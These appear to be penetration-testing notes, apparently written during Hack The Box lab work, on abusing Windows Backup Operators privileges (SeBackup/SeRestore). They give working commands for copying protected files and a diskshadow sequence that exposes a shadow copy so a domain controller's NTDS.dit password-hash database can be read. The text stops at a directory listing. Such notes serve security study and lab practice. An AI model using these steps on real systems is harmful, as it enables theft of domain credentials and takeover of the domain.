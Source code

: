 ```yaml
---
description: whoami /groups
---
```


# Windows Group Privileges

## **Backup Operators ⭐**

Members of `Backup Operators` has `SeBackup` and `SeRestore` privileges. `SeBackup` Privilege allows us to traverse any folder and list the folder contents. This will let us copy any files even if there is no ACE for us in the folder’s ACL.

To copy the file we cannot use our standard copy command.

### **Copying Protected/Sensitive files**

[https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) Using this tool we can exploit the `SeBackupPrivilege`and copy the file

```powershell
PS C:\\htb> Import-Module .\\SeBackupPrivilegeUtils.dll
PS C:\\htb> Import-Module .\\SeBackupPrivilegeCmdLets.dll
```

Import libraries

If the Privilege is disabled, we can enable it with Set-SeBackupPrivilege.

* `PS C:\\htb> Set-SeBackupPrivilege` → enable privilege
* `Copy-FileSeBackupPrivilege 'C:\\Confidential\\2021 Contract.txt' .\\Contract.txt` → copy protected file.

### **Attacking a Domain Controller - Copying NTDS.dit**

NTDS.dit contains password hashes of domain users. located in `C:\\Windows\\NTDS\\ntds.dit`

If we try to copy the `ntds.dit` file using `Copy-FileSeBackupPrivilege` cmdlet we get error as the file is in continuous use.

to solve this we are going to create a shadow copy of the C drive and we can read the content of ntds.dit from this shadow copied dir.

```powershell
PS C:\\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\\Windows\\Temp\\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\\htb> dir E:

    Directory: E:\\

Mode                LastWriteTime         Length Name
```